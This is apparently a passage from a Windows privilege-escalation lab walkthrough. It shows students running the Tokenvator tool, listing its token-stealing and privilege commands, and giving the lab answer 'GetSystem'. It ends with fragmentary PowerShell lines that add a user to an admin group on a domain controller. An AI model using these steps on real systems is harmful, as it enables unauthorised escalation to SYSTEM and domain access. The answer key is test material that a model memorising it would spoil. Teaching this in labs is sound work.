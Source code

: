 Code: cmd

```cmd
cd C:\Tools
.\Tokenvator.exe
```

```
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\normal.user>cd C:\Tools

C:\Tools>.\Tokenvator.exe
```

Subsequently, students will use the `help` command to find the command responsible for elevating to `NT AUTHORITY\SYSTEM`, additionally, students can use the wiki of the tool on [GitHub](https://github.com/0xbadjuju/Tokenvator/wiki):

Code: cmd

```cmd
help
```

```
(Tokens) > help

Name                     Optional            Required
----                     --------            --------
Info                     all                 -
Help                     Command             -
History                  -                   -

Add_Privilege            Process             Privilege

<SNIP>

Nuke_Privileges          Process             -

{hidden}                 Command             -
GetTrustedInstaller      Command             -
Steal_Token              Command             Process

<SNIP>
```

Answer: `GetSystem`

# Token Impersonation

## Question 1


[DC01]: PS C:\Users\admin.user\Documents> Get-ACL -Path "\\dc01\C$\ADMINS$\" | Format-List -Property AccessToString
[DC01]: PS C:\Users\admin.user\Documents> net group Admin-Files admin.user /add
[DC01]: PS C:\Users\admin.user\Documents> cd 'C:\ADMINS$\'
[DC01]: PS C:\ADMINS$> ls
[DC01]: PS C:\Users\admin.user\Documents> exit